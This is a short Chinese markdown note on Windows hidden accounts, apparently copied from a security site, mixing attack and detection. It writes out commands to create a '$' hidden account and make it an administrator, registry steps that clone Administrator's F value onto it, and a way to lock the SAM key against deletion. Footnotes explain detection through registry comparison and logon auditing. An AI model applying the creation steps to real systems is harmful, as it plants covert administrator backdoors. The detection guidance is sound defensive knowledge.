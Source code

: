 ### 添加 `$`符号型隐藏账户

- `net user hidden$ 123456 /add`

### 隐藏账户提升为管理员权限

- `net localgroup administrators hidden$ /add`

### 查看系统账户

- `net user` [^1]

### 显示全部系统账号

- `net localgroup administrators` [^2]

- `compmgmt.msc` -> 本地用户和组 -> 用户

### 注册表型隐藏账户

- `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names` [^3]

### 获取无法看到名称的隐藏账户 [^4]

- `gpedit.msc` -> 计算机配置  -> Windows设置 -> 安全设置  ->  本地策略  -> 审核策略
- 审核策略更改、审核登录事件、审核进程跟踪 -> 成功 [^5]

### 将隐藏账户替换为管理员

1. 查看`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\hidden$` 中的类型值  `0x3fa`
2. 根据 `0x3fa`定位到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003FA`并导出
3. 同理导出 `Administrator`账户对应的 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4`
4. 使用编辑器替换注册表文件中的 ==F== 字段的值
5. `net user hidden$ /del` 删除 `hidden$` 账户
6. 将修改过得注册表文件导入

### 切断删除隐藏账户的途径

- 修改 `HKEY_LOCAL_MACHINE\SAM\SAM`处的`Administrator`的权限

[原文](http://www.chncto.com/safe-Knowledge/22349.html)

---

[^1]: 显示当前系统中存在的账户，但不会显示 `hidden$`账号
[^2]: 一般建立完隐藏账户后会把隐藏账户提升为管理员权限
[^3]: 把这里存在的账户和“计算机管理”中存在的账户进行比较，多出来的账户就是隐藏账户。想要删除它就直接删除以隐藏账户命名的项即可
[^4]: 情况背景是入侵者制作了一个修改注册表型隐藏账户，同时删除了管理员对注册表的操作权限。那么管理员是无法通过注册表删除隐藏账户，甚至无法知道黑客建立的隐藏账户名称
[^5]: 进行登陆审核后可以对任何账户的登陆操作进行记录，包括隐藏账户，这样我们就可以通过“计算机管理”中的“事件查看器”准确得知隐藏账户的名称，甚至入侵者登陆的时间。一旦找到账户名可以使用 `net user 隐藏账户名称 654321` 更改这个隐藏账户的密码使这个隐藏账户远程登录失效